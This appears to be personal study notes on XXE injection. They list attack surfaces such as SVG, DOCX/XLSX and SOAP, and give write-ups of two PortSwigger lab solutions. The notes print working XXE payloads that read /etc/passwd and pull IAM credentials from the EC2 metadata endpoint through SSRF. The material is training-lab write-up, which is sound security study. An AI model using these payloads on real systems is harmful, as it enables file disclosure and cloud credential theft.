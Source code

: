 ### Increasing Attack Surface

* SVG is just XML describing images
  * Wherever we can upload an image --> XXE if svg is possible
* DOCX/XLSX can also be used for XXE
  * [https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)
* SOAP Requests are also just XML requests

## PortSwigger Labs

### Exploiting XXE using external entities to retrieve files

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
>
> Inject an XML external entity to retrieve the contents of the /etc/passwd file.

After selecting the 'Check Stock' button we see the below request body in Developer Tools

```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>20</productId><storeId>1</storeId></stockCheck>
```

Payload used when editing and re-sending the request

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]><stockCheck><productId>&read;</productId><storeId>1</storeId></stockCheck>
```

### Exploiting XXE to perform SSRF attacks

> The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
>
> Exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

After selecting the 'Check Stock' button we see the below request body in Developer Tools

```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Payload used when editing and re-sending the request after iteratively appending to `/latest/meta-data/` in the URL request

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]> <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
